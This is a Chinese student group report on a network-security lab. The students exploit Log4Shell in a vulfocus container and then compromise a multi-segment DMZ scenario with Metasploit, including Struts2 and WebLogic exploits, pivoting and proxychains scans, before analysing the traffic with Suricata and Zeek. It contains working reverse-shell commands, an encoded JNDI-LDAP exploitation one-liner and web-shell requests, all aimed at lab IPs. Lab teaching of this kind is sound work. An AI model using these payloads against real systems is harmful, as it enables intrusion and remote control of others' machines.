# 网络安全综合实践小组报告

---

## 工作安排

--

- 成员合作提交作业流程见于 [GitHub 小组合作说明文档.md](./GitHub小组合作说明文档.md) .

- 每个成员都完整复现出 [网络安全 (2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da) 流程

- 复现完成后分工补充和改进内容

- 实验日程

  - [x]   2024.7.8-2024.7.13  个人学习并复现 [网络安全 (2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da)
  - [x]   2024.7.14-2024.7.16  团队分工并改进实验
  - [x]   2024.7.16-2024.7.17  完成实验报告撰写并提交

---

## 搭建基本环境

--

在 [kali 官网](https://www.kali.org/get-kali/#kali-virtual-machines) 下载 kali 虚拟机导入自己的虚拟机平台. 我们使用的是 VMware , kali 版本为 2024.1, 虚拟机网卡配置如下 ：

- hostname: `kali@victim` 
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.136.144`
- - eth1: Host-Only
- - - ip: `192.168.5.132`
- host: `kali@attacker`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.136.147`
- - eth1: Host-Only
- - - ip: `192.168.5.135`

--

安装和配置 docker :

```shell
sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}

# 切换到 root 用户
sudo su 

# 使用国内 Docker Hub 镜像源（可选步骤）
# 国内 Docker Hub 镜像源可用性随时可能变化，请自测可用性
sudo mkdir -p /etc/docker

sudo tee /etc/docker/daemon.json <<-'EOF'
{
  "registry-mirrors": ["https://docker.chenby.cn"]
}
EOF

sudo systemctl daemon-reload

sudo systemctl restart docker
```

--


查看 git 和 docker 版本 :


--

参考 [小陈的容器镜像站](https://mp.weixin.qq.com/s/jaUb7sSLDBXrU3F7crtWPA)  配置 docker 镜像源 :



使用命令 `git clone https://github.com/c4pr1c3/ctf-games.git` 克隆 ctf-games 仓库 :


--

拉取 docker 镜像 vulfocus :



切换到 ctf-games/fofapro/vulfocus 目录下, 执行 `bash start.sh`, 选择 host-only 网卡对应的 IP 地址 :


在宿主机浏览器上访问此 IP 地址, 默认用户名和口令均为 admin : 



---

##  Log4j2 漏洞的检测和利用

---

### Log4Shell 漏洞原理浅探

--

**关键词**

- [`Log4j2`](https://github.com/apache/logging-log4j2)：Apache Log4j2 是 Java 平台上的一个开源日志框架，它是 Log4j 的下一代版本，提供了更为高效且灵活的日志记录功能。
- [`反弹 Shell`](https://www.imperva.com/learn/application-security/reverse-shell/)：利用目标系统的漏洞来启动 shell 会话，然后访问受害者的计算机。目标是连接到远程计算机并重定向目标系统 shell 的输入和输出连接，以便攻击者可以远程访问它。
- [`ldap`](https://www.redhat.com/en/topics/security/what-is-ldap-authentication)：轻量级目录访问协议 (Lightweight directory access protocol) 是一种帮助用户查找有关组织、个人等的数据的协议。 LDAP 有两个主要目标：将数据存储在 LDAP 目录中并对访问该目录的用户进行身份验证。它还提供应用程序从目录服务发送和接收信息所需的通信语言。目录服务提供对网络中组织、个人和其他数据的信息所在位置的访问。
- [`JNDI`](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)：Java Naming and Directory Interface 是一个应用程序编程接口(API)，它为使用 Java TM 编程语言编写的应用程序提供命名和目录功能。它被定义为独立于任何特定的目录服务实现。因此，可以通过通用方式访问各种目录（新的、新兴的和已部署的）。

--

**漏洞原理**

- 在 [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST) 网站中可以看到，按照 CVSS 3.1 的评分标准，该漏洞的评分为10分，是一个极其严重的漏洞。

- 在 [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/) 的博客中，详细介绍了该漏洞的原理和利用方式：
    - CVE-2021-44228 是 JNDI 注入漏洞，Log4j2 在日志记录时，支持通过 JNDI 进行查找。例如，日志消息可以包含类似 `${jndi:ldap://example.com/a}` 的字符串，Log4j 会在记录日志时尝试解析这个字符串。
    - LOG4J2-313 添加了如下所示的 jndi 查找：“JndiLookup 允许通过 JNDI 检索变量。默认情况下，键的前缀将是 java:comp/env/ ”
        当键中存在 : 时，如 ${jndi:ldap://example.com/a} 中那样，就不会有前缀，并且会向 LDAP 服务器查询该对象。这些查找可以在 Log4j 的配置中使用以及在记录行时使用。所以，攻击者只需查找被记录的一些输入，然后添加诸如 {jndi:ldap://example.com/a} 之类的内容。
    - 当 Log4j2 解析这个日志消息时，它会通过 JNDI 向指定的服务器地址发送查找请求。如果攻击者控制的服务器返回一个恶意的 Java 类，这个类会被 Log4j 加载并执行，从而实现远程代码执行（RCE）。

- 在 [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) 的页面可以看到，由于Log4j广泛用于各种Java应用程序和服务，因此这个漏洞影响范围非常广泛，包括Web服务器、应用程序服务器、邮件服务器等。

---

### 漏洞存在性检测

--

下载 Log4j2 镜像并启动漏洞靶标 :


尝试在 URL 后补充 '/hell' 和 '/hello' :





在 kali 中执行 `docker ps` 查看正在运行的容器 :


Log4j2 对应的容器名称为 eloquent_boyd

进入容器 :

```shell
docker exec -it eloquent_boyd bash
```

--



发现 demo.jar 文件, 将其拷贝出来 :

```shell
docker cp eloquent_boyd:/demo/demo.jar ./
```

--


使用 `jd-gui` 工具反编译, 查看代码 :


确实发现漏洞.

---

### 从源码详细分析漏洞

---

#### 进行源代码审计

--

```bash
#进入 docker 容器中，找到系统中预置的 shell并利用找到 demo.jar
cat /etc/shells
docker exec -it {container_name} /bin/bash

# docker exec -it {container_name} sh
# 如果已经预设则可以直接进入shell
```

--




---

#### java 反编译

--





--

```java
package BOOT-INF.classes.com.example.log4j2_rce;

import java.io.IOException;
import javax.servlet.http.HttpServletResponse;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RestController;

@SpringBootApplication
@RestController
public class Log4j2RceApplication {
  private static final Logger logger = LogManager.getLogger(com.example.log4j2_rce.Log4j2RceApplication.class);
  
  public static void main(String[] args) {
    SpringApplication.run(com.example.log4j2_rce.Log4j2RceApplication.class, args);
  }
  
  @GetMapping({"", "/"})
  public String aaa(HttpServletResponse response) throws IOException {
    response.getOutputStream().write("<h2>Struts Problem Report</h2><br/><a href=\"/hello?payload=111\">我哈哈哈哈</a>".getBytes());
    return "<h2>Struts Problem Report</h2><br/><a href=\"/hello?payload=111\">我哈哈哈哈</a>";
  }
  
  @GetMapping({"/hello"})
  @ResponseBody
  public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
  }
}
```
---

#### 分析代码  

--

根据[教学视频](https://www.bilibili.com/video/BV1p3411x7da/?p=18&spm_id_from=pageDriver&vd_source=29be36c5871bf765d00681706f529585)中所讲代码中出现漏洞问题是在`logger.error,logger.info`函数中，但并没讲述原因


--

我进行跟进了解此漏洞原理发现
```java
   System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
```
此代码也有问题

这两行代码分别设置了`LDAP`和`RMI`的`JNDI`配置，允许从不受信任的URL加载代码库

而Log4j2在处理日志消息时它会扫描消息中的` ${} `语法来识别 `Lookups` 标记，根据 `Lookups` 标记的类型，调用相应的解析器来获取实际值
```bash
#Lookups 是一种功能，允许在日志消息中动态地插入特定类型的数据。它们通过`${}`语法嵌入在日志消息中，可以在运行时被替换为相应的值或结果。
```

--

这里就用到`JNDI lookups`

Log4j2在记录日志时会解析`${}`中的内容。在这种情况下，它会尝试通过`JNDI`查找ldap后的内容

如果查找内容是攻击者控制的LDAP服务器，它可以响应一个包含恶意代码的对象。

应用程序加载并执行从恶意服务器返回的代码，从而导致远程代码执行（RCE）

而`logger.error/info`中所包含的`payload`可能就是攻击者控制的服务器地址

所以才产生了漏洞

---

### 漏洞可利用性检测

---

#### 使用 dnslog

--

打开网站 http://www.dnslog.cn/ , 获取随机子域名 `95p55c.dnslog.cn` :



根据靶场容器 URL 和获取的子域名，对 payload 字段进行编码, 编码平台可使用 https://www.urlencoder.org/ .

```shell
# 编码内容 : ${jndi:ldap://ottlt5.dnslog.cn/dalechu}

# 编码结果 : %24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D

# curl 命令 :
curl "http://192.168.5.132:50721/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D"

```

--

发现四条解析记录，说明漏洞可利用 : 


一开始做的时候根据老师视频演示的代码来做发现运行不了的问题，然后我们查看根据反编译结果发现，缺陷函数用到的是 get 请求方法，所以该环境不能支持 post ,所以我们得换成发送 get 请求

---

#### 使用 log4j-scan

--

下载工具 log4j-scan 并扫描漏洞 :

```shell
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 在 log4j-scan.py 的 post_data_parameters 中手动添加 payload 参数或无脑替换 :  
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 将 log4j-scan.py 文件 349 行处的 GET 请求参数中的 `v` 改为 `payload` 

# 扫描靶场容器, 注意这里使用 get 而不是 post !!!
python log4j-scan.py --request-type get -u http://192.168.5.132:49576/hello --dns-callback-provider dnslog.cn
```

--







成功扫描到漏洞 !

---

#### 问题

--

(1). 有些场景下使用 `python3` 来执行 log4j-scan.py , 终端不会有任何响应信息, 改为 `python` 即可正确执行.  

(2). curl POST 请求不允许 : 按照原教程，使用 `curl -X POST` 发送请求，但是返回 `405 Method Not Allowed` 错误。



- 原因：靶场容器似乎不允许 POST 请求，只能使用 GET 请求
- 解决：本质上是发送一个包含关键词的 HTTP 请求，可以使用 GET 请求替代 `curl "http://192.168.4.129:26678/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"`

(3). log4j-scan.py 报错

除了上述问题，`log4j-scan.py` 一开始使用命令 `python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello` 还有报错 `requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f8240f643d0>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))`

- 原因：`log4j-scan.py` 代码中 `interact.sh` 服务器只能通过 HTTP 访问，而脚本默认使用 HTTPS 访问
- 解决：增加 `--dns-callback-provider dnslog.cn` 参数，使用 `dnslog.cn` 作为 DNS 回调服务器

---

## 评估漏洞利用效果

---

### 配置虚拟机和工具

--

新建一台 kali 虚拟机, 为其配置一块 host-only 网卡, 主机名改为 `attacker` :

```shell
hostnamectl set-hostname attacker

# 在 /etc/hosts 文件中添加 127.0.0.1 和 attacker 的记录

# 重启系统

# 同样, 另一台虚拟机的主机名改为 victim
```

--


在虚拟机 attacker 上安装 tmux 和 asciinema :

```shell
sudo apt install tmux asciinema
```
--

tmux 的简单使用 :

```shell
# 建立名为 session_name 的会话
tmux new -s session_name 

# 先 Ctrl + B, 再 % : 左右分屏
# 先 Ctrl + B, 再 " : 上下分屏

# 先 Ctrl + B, 再 D : 切换回原先终端环境

# 切换回 session_name 会话中
tmux a -t session_name 

```

---

### 初试反弹 Shell 

--

在 attacker 虚拟机中先简单布置两个终端窗口, 一个为 attacker 本身, 另一个通过 ssh 连接到 victim 虚拟机.

在 attacker 终端窗口上 :

```shell
ip a 
# 查看 host-only 网卡 IP 地址

nc -l -p 7777

# 当可以进入 victim 虚拟机的容器后 :

ls
ls /tmp
ps aux

```

--

在 victim 终端窗口上 :

```shell
# 查看当前运行中的容器
sudo docker ps

# 复制目标容器名

# 进入容器 agitated_curie 内
sudo docker exec -it agitated_curie /bin/bash     

# 进入容器后, 执行 :
bash -i >& /dev/tcp/192.168.5.134/7777 0>&1 
# 这里的 192.168.5.134 为 attacker 虚拟机 host-only 网卡对应 IP 地址

# 启动一个交互式的 bash shell. 将该 shell 的标准输入、标准输出和标准错误重定向到通过 TCP 连接到 192.168.5.134:7777 的套接字
# 这样，任何从 192.168.5.134 上的 7777 端口发送的数据都会作为 bash shell 的输入，bash shell 的输出也会发送回 192.168.5.134 上的 7777 端口

```

--

录制的 asciinema 视频 :

[](https://asciinema.org/a/yruCeOBQtHKoa4kS0LB2r3Bsj)

---

###  基于 JNDIExploit 反弹 Shell

--

在 attacker 虚拟机中下载 [JNDIExploit.v1.2.zip](https://github.com/Mr-xn/JNDIExploit-1/releases/tag/v1.2), 解压缩, 计算校验和 :


尝试反弹 Shell : 

这里使用 tmux 分割三个终端, 分别执行以下命令 :

```shell
# 开启 JNDI 服务
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.5.134

# 监听端口，等待靶标容器连接
nc -l -p 7777

# 发送包含访问恶意命令（ Base64 编码的反弹 Shell 命令）地址的 HTTP 请求
sudo apt install xxd

# 使用教程中的命令格式报错了, 发现是这里又出现了 POST 请求不允许的情况，于是使用 GET请求进行替代

# 这里还出现了 URL 编码问题, 改为 GET 请求后，Bash 命令的 Base64 编码也需要修改, 如下 : 

SHELL_COMMAND="bash -i >& /dev/tcp/192.168.5.134/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.5.132:53860/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.5.134:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

```

--

flag 即为 : **flag-{bmh95894fd4-c71c-4ad5-b1eb-83b886126dcf}**


--

asciinema 录屏 :

[](https://asciinema.org/a/pNz6cot6L8jaaLtpIdzdMwkMW)

---

### 问题

--

#### GET 请求命令的编码问题

原先的 `curl http://192.168.182.129:43381/hello -d 'payload=${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.182.130/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}' ` 命令执行失败 : 




注意到这里又出现了 POST 请求不允许的情况，根据昨天的经验，使用 GET 请求替代：

```bash
curl "http://192.168.4.129:43381/hello?payload=${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.182.130/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}"
```

发现又无效，原因是 URL 编码问题：

> When making a request to an API, the parameters included in the URL request may contain characters that have special meaning for the web server. **URL encoding allows the browser or web server to safely transfer this data** , as it converts all special characters and spaces into a format that web browsers can understand.
- [What is URL encoding? - LocationIQ](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://locationiq.com/glossary/url-encoding&ved=2ahUKEwj_vtnz6JyHAxVvklYBHRjWBM8QFnoECBcQAw&usg=AOvVaw16s5ejvi6YAfxkTdWNT8zo)

同时，注意到改为 GET 请求后，Bash 命令的 Base64 编码也需要修改，摸索了一下，最终成功写出 Bash 命令

--

```bash
# 反弹 Shell 命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1"
# Base64 编码
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
# 拼接 URL
TARGET_URL="http://192.168.182.129:43381/hello" 
FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" 
# URL 编码
URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` 
# 发送 GET 请求
curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

# curl 的 GET 请求
# http://192.168.182.129:43381/hello?payload=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%38%32%2e%31%33%30%3a%31%33%38%39%2f%54%6f%6d%63%61%74%42%79%70%61%73%73%2f%43%6f%6d%6d%61%6e%64%2f%42%61%73%65%36%34%2f%59%6d%46%7a%61%43%41%74%61%53%41%25%32%42%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4f%54%49%75%4d%54%59%34%4c%6a%45%34%4d%69%34%78%4d%7a%41%76%4e%7a%63%33%4e%79%41%77%50%69%59%78%7d%0a

# 一行命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.182.129:43381/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

# 注意 ! 这么强悍的一行命令是我们的 lihan3238 同学亲自手搓出来的 ! 代价是他整整研究了一个下午 ! 
```

--

#### 网卡状态失效

本来配置了 host-only 网卡 eth0 和 NAT 模式网卡 eth1, 但 kali 开机后, 使用 `ip a` 命令查看 IP 地址, 发现这两块网卡的 state 都是 DOWN, 正常网卡应该是 UP 的. 尝试解决这个问题 :

以 eth0 为例, 临时方案 : 

```shell
sudo ip link set eth0 up  # 将网卡 eth0 设置为 UP
sudo dhclient eth0 # 获取 IP 地址
```

完全解决方案 ( Kali Linux 2023.4 版本可行 ) :
```shell
# 编辑 /etc/network/interfaces 文件, 添加 :
auto eth0
iface eth0 inet dhcp

# 如此, 系统启动时会自动启用网络接口 eth0, 并使用 DHCP 分配 IP 地址
```

---

### 漏洞利用流量检测

--

```shell
# 启动 suricata 检测容器, 此处 eth1 为 victim 虚拟机的 host-only 网卡
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:latest

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
docker restart suricata

# 在重复上次 jndi 渗透过程同时, 开辟新的 victim 终端窗口来监视 suricata 日志 :
docker exec -it suricata tail -f /var/log/suricata/fast.log

```




--

asciinema 录屏 :

[](https://asciinema.org/a/GogoxgBeXh75I9v83XvQX1eaV)

---

### 漏洞利用防御与加固

--

这张图表展示了Log4j JNDI攻击的原理和防御方法：




--

1. **攻击者发起请求**
- 攻击者在 HTTP 请求的头字段（例如 User-Agent）中插入一个包含 JNDI 查找的字符例：`User-Agent: ${jndi:ldap://evil.xa/x}`
- 防御措施：使用 WAF（Web应用防火墙）拦截此类恶意请求。

2. **日志记录**
- 易受攻击的服务器接收到请求，并将包含 JNDI 查找的字符串传递给 Log4j 进行日志记录。
- 防御措施：禁用 Log4j 或更新 Log4j 到修复版本。

3. **Log4j 处理请求**
- log4j 解释该字符串，并尝试查询恶意的 LDAP 服务器以获取更多信息。
- 防御措施：禁用 JNDI 查找功能。*

4. **查询恶意 LDAP 服务器**
- Log4j 向恶意 LDAP 服务器发送查询请求，获取恶意的 Java 类。
- 防御措施：确保 LDAP 查询指向可信的内部服务器或禁用远程代码库。*

5. **Java 反序列化恶意代码**
- 恶意 LDAP 服务器响应目录信息，包含恶意 Java 类的位置。Java 反序列化该类并执行其中的恶意代码。
- 防御措施：禁用远程代码库功能，确保反序列化过程的安全。*

---

## 跨网段多靶标攻防实验

---

### 部署 DMZ 场景

--

- 在 vulfocus 的本地管理页面的左侧导航菜单里依次找到并点击：场景管理、环境编排管理。
- 在主窗口中点击 添加场景 ，选择 创建编排模式 。
- 在打开的拓扑编辑页面，点击 上传 按钮，选择当前目录下的 DMZ.zip 上传。
- 返回 环境编排管理 页面，点击刚才创建成功的场景缩略图上的 发布 按钮。
- 发布成功后，通过左侧导航菜单里的 场景 找到刚才发布成功的场景缩略图，点击后进入场景详情页面，点击 启动场景 。
- 注意访问地址不是场景详情页面上显示的，请自行替换为 vulfocus管理页面的访问IP:场景详情页面上显示的端口号 。


--


这里发现镜像 `vulfocus/struts2-cve_2020_17530` 对应容器的 CONTAINER ID 为 `12499e844404`, 下面尝试捕获指定容器的上下行流量 :

```shell
# 建议放到 tmux 会话
container_name="12499e844404"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump

# 置于后台, 快捷键 Ctrl + B, D
```

--




--

**问题**

部署 DMZ 场景, 一直失败. 请教老师后, 发现我的两位室友也都遇到了同样的问题哈哈, 需要自己写一个 dockerfile, 将 vulshare/nginx-php-flag 容器中的 /2.sh 的  `ping aa.25qcpp.dnslog.cn` 命令删去即可 ( 因为无法 ping 通 ). 但是当我回到宿舍中, 还没动手修改, 却发现此能跑通了 ! 即宿舍网环境中能正常 ping 此域名 : 


---

### 攻克第一个标靶

--

```shell
# 切换到攻击者主机 attacker 进行 metasploit 基础配置
# sudo apt install -y metasploit-framework
# 在 2024 版本 kali 中, metasploit-framework 是自带的, 无需再手动安装.

# 初始化 metasploit 本地工作数据库及启动 :
sudo msfdb init && msfconsole

# 确认已连接 pgsql
db_status

# 建立工作区
workspace -a demo

# 查看工作区
workspace -l
```

--

原先的 attacker 虚拟机运行 msfconsole 命令报错了, 查阅诸多方法无法解决, 遂使用新虚拟机作为 attacker 了 : 




--

收集信息, 寻找合适的 exp  :

```shell
# search exp in metasploit
search struts2 type:exploit

# 查看模块信息, 参数选择 exploit/multi/http/struts2_multi_eval_ognl 对应的序号
info <编号>

# 根据输出内容, 继续完善搜索关键词 :
search S2-059 type:exploit

# 使用此 exp
use <编号>
```

--


```shell
# 查看 payloads 列表
show payloads

# 使用合适的 payload
set payload payload/cmd/unix/reverse_bash
```



--

设置好靶机 ip, 端口等信息 :

```shell
# 靶机 IP
set RHOSTS 192.168.5.132

# 靶机目标端口
set rport 43067

# 攻击者主机 IP
set LHOST  192.168.5.135

# 查看参数列表, 确认一遍
show options
```




```shell
# getshell
exploit -j

# 如果攻击成功，查看打开的 reverse shell
sessions -l

# 进入会话 1
sessions -i 1
# 无命令行交互提示信息，试一试 Bash 指令

# 寻找 flag
ls /tmp

#挂后台
# 快捷键 Ctrl-Z, Y
```

--

发现 **flag-{bmh5385b98e-4e60-4423-8c7f-6d01adb1b517}** !


--

asciinema 录屏 ( 为 lihan3238 记录, 部分参数与当前报告不同, 但过程一致 ) :

[](https://asciinema.org/a/0V0X3i0sy9RGJvTRKsdTZZ6yv)

---

### 寻找靶标 2 ~ 4

--

- 这里需要将已获得的 1 号会话即外层主机 shell 升级为 meterpreter

- meterpreter 是 Metasploit 框架中的一个高级 payload，提供了一个强大的内存驻留 shell，允许攻击者在目标系统上执行各种命令和脚本，而不会在目标系统的硬盘上留下痕迹. 它具备强大的后渗透功能，可以帮助攻击者在目标系统上进行广泛的操作. 与控制台之间的通信经过加密，防止流量被拦截和分析.


```shell
# upgrade cmdshell to meterpreter shell
sessions -u 1

sessions l

sessons -i 2
```


--

进入 meterpreter 会话后 :

```shell
# 查看网卡信息
ipconfig

# 查看路由表 
route

# 查看 ARP 缓存
arp
```




--

```shell
# 根据上面的内容, 创建路由 :
run autoroute -s 192.175.84.1/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p

# 挂后台, 快捷键 Ctrl-Z, Y

```



--

```shell
search portscan
use auxiliary/scanner/portscan/tcp
show options

# 根据子网掩码推导
set RHOSTS 192.175.84.2-254

# 根据「经验」
set ports 7001

# 根据「经验」
set threads 10

run -j

hosts
```

--






--

```shell
# 查看发现的服务列表
services

# 建立 socks5 代理

search socks_proxy
use auxiliary/server/socks_proxy
run -j

# 查看后台建立 socks5 代理是否成功
jobs -v
```


--

```shell
# 开启新的终端窗口
# 查看 1080 端口
sudo lsof -i tcp:1080 -l -n -P

# 编辑 /etc/proxychains4.conf
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

# 使用 proxychains 命令扫描内网主机
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.175.84.2-5
```


--

```shell
# 回到 metasploit 环境
# 进入 sessions 1 会话
sessions l

sessions -i 1

curl http://192.175.84.2:7001 -vv
curl http://192.175.84.3:7001 -vv
curl http://192.175.84.4:7001 -vv
curl http://192.175.84.5:7001 -vv

```


--

asciinema 录屏 ( 为 lihan3238 记录, 部分参数与当前报告不同, 但过程一致 ) :

[](https://asciinema.org/a/wkJGvztDXLToALaTtEqnoPVR0)

---

### 攻破靶标 2 ~ 4

--

```shell
# search exploit
search cve-2019-2725

# getshell
use 0

set lhost 192.168.5.135

set RHOSTS 192.175.84.2
# set RHOSTS 192.175.84.3
# set RHOSTS 192.175.84.4
# 分别设置不同的靶机 IP 

show options

# 分别 run
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5

```

--






--

来看最终输出结果吧 ! 


--

asciinema 录屏 ( 为 lihan3238 记录, 部分参数与当前报告不同, 整体过程一致 ) :

[](https://asciinema.org/a/hBmwfBwjBfmhwZcJ0sdTkb96x)

---

### 攻克靶标 5

--

```shell
# 查看三台靶机的 IP 配置，并发现 session 5 的主机有三个网卡，说明该主机同时又在另一个网段底下，所以 session 5 内连接的这台主机可以考虑作为跳板主机，即 192.175.84.5
sessions -c "ifconfig" -i 3,4,5

#  session 5 升级，并生成  session 6 
sessions -u 5

# 进入 session 6 ( 即进入跳板主机内，该跳板主机另一张网卡的 IP 是 192.176.85.2 )
sessions -i 6

# 将新发现的子网加入 Pivot Route
run autoroute -s 192.176.85.0/24

# 检查新发现的子网是否加入成功，留意一下输出结果的子网掩码
run autoroute -p

# 按快捷键 CTRL-Z , Y 置于后台
```

--











--

```shell
# 再次使用端口扫描服务
use scanner/portscan/tcp

# 根据上面的子网掩码推出来的扫描范围
set RHOSTS 192.176.85.2-254

# 扫描端口设置为 80
set ports 80

# 开始扫描
run 

# 查看服务列表
services

# 查看该网段下存活主机
hosts

# 再次进入会话 6
sessions -i 6

```

--






注意到这里开放了 80 端口的 ip 是 **192.176.85.3** !


```shell
sessions -c "wget http://192.176.85.3" -i 6

# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.176.85.3 -O /tmp/result && cat /tmp/result" -i 6

# 发现 get flag 提示
sessions -c "wget 'http://192.176.85.3/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 6

```




--

发现 **flag-{bmh516b6e99-fcae-4f36-9beb-e6a1d37d58e0}** !



DMZ 场景五面 flag 全部找到 ! 初步完成实验 ! 

--

asciinema 录屏 :

[](https://asciinema.org/a/4mgUb4myS0CADvTERxdi30BpB)

[](https://asciinema.org/a/nFWnjq51ky4Hac4CvEIZmOVTg)

---

### 问题

--

nginx-php-flag 镜像的容器启动失败 : 



- 原因：查看容器日志发现有失败的 ping 的记录；
进而进入容器查看，发现有一个 2.sh 的文件中包含 `ping aa.25qcpp.dnslog.cn`,实际上 ping 不通；
- 解决：修改 `ping aa.25qcpp.dnslog.cn` 为`ping 127.0.0.1`，保证容器持续运行，重新构建镜像并运行容器. ( 或者改为 `tail -F /test` , 表示持续监控指定文件 /test 的末尾内容，并实时输出到终端, 这也满足了容器一直运行的需求 )

--

```bash
# 2.sh
#!/bin/bash
/etc/init.d/nginx start && /etc/init.d/php7.2-fpm start && ping 127.0.0.1

# Dockerfile
FROM vulshare/nginx-php-flag:latest

COPY ./2.sh /2.sh

RUN chmod +x /2.sh

CMD ["/2.sh"]

# 构建镜像
docker build -t vulshare/nginx-php-flag:latest .

# 重新启动场景
```



---

## 多网段渗透场景的流量分析

---

### 分析准备

--

- kali@targetserver ( 即 kali@victim )

1. 提取抓取的流量文件 [**tcpdump.pcap**](../code/lihan_code/tcpdump/tcpdump.pcap), 使用 `wireshark` 分析流量



--

2. 从 [官网](https://github.com/zeek/zeek) 下载安装 `zeek` 工具来分析流量

```bash
git clone --recursive https://github.com/zeek/zeek
./configure && make && sudo make install

# 编辑 /usr/local/zeek/share/zeek/site/local.zeek ，在文件尾部追加两行新配置代码
@load frameworks/files/extract-all-files
@load mytuning.zeek

#在 /usr/local/zeek/share/zeek/site 目录下创建新文件 mytuning.zeek ，内容为：
zeek -r tcpdump.pcap /usr/local/zeek/share/zeek/site/local.zeek

# 运行 `zeek` 分析流量
zeek -r ./tcpdump/[]/tcpdump.pcap
```



---

### struts2-cve_2020_17530 分析

--

1. wireshark 分析

根据前面使用 `msfconsole` 利用 `struts2-cve_2020_17530` 漏洞攻击 `victim-1` 的 [multi/http/struts2_multi_eval_ognl 模组的源码](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/struts2_multi_eval_ognl.rb) ：
```ruby
elsif cve == 'CVE-2020-17530'
  http_request_parameters['method'] = 'POST'
  http_request_parameters['vars_post'] = { datastore['NAME'] => "%{#{ognl}}" }
```
使用 `urlencoded-form.value contains "%{"` 进行过滤 成功找到攻击流量



--

2. zeek 分析

